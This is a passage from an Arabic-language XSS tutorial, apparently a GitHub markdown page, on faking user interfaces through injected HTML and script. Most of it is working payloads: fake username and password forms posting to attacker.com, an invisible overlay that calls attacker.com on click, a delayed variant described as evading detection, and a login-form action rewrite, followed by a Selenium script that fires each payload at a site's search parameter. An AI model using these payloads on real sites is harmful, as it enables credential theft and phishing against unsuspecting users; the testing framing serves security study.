   - **كيف يعمل**: يستخدم صيغة غير قياسية لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.
- **الحقن**: `<script>setTimeout(() => document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="data"><input type="submit"></form>', 1000)</script>`
  - **الإدخال**: أدخل في نموذج: `<script>setTimeout(() => document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="data"><input type="submit"></form>', 1000)</script>`
  - **كيف يعمل**: يؤخر تنفيذ النموذج المزيف.
  - **متى يُستخدم؟**: لتجنب الكشف المبكر.
#### الشرح العملي :
### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة لتزييف واجهة المستخدم وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تزيف واجهة المستخدم.
  - مثال قائمة:
    ```
    <div style="position:absolute;top:0;left:0;opacity:0;width:100%;height:100%" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>
    <script>document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="username"><input type="password" name="password"><input type="submit"></form>'</script>
    <iframe src="https://example.com/reset-password" style="opacity:0"><div style="position:absolute;top:50px;left:50px" onclick="fetch('http://attacker.com/log')">إعادة تعيين</div></iframe>
    <style>body { background: white; } #content { display: none; }</style><div>صفحة تسجيل الدخول</div>
    <script>document.getElementById('login-form').action='http://attacker.com/log'</script>
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة عبر نقطة إدخال XSS.
  - يتم مراقبة التفاعلات أو الطلبات الصادرة لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع Selenium لمحاكاة المتصفح):
  ```python
  from selenium import webdriver
  from selenium.webdriver.common.by import By
  from selenium.webdriver.common.action_chains import ActionChains
  import time

  url = "https://example.com/?search="
  payloads = [
      "<div style=\"position:absolute;top:0;left:0;opacity:0;width:100%;height:100%\" onclick=\"fetch('http://attacker.com/log')\">اضغط هنا</div>",
      "<script>document.body.innerHTML='<form action=\"http://attacker.com/log\"><input type=\"text\" name=\"username\"><input type=\"password\" name=\"password\"><input type=\"submit\"></form>'</script>",
      "<iframe src=\"https://example.com/reset-password\" style=\"opacity:0\"><div style=\"position:absolute;top:50px;left:50px\" onclick=\"fetch('http://attacker.com/log')\">إعادة تعيين</div></iframe>",
      "<style>body { background: white; } #content { display: none; }</style><div>صفحة تسجيل الدخول</div>",
      "<script>document.getElementById('login-form').action='http://attacker.com/log'</script>"
  ]

  driver = webdriver.Chrome()
  for payload in payloads:
      driver.get(url + payload)
      time.sleep(2)  # انتظر تحميل الصفحة
      ActionChains(driver).move_to_element(driver.find_element(By.TAG_NAME, "body")).click().perform()
      print(f"اختبار: {payload}")
  ```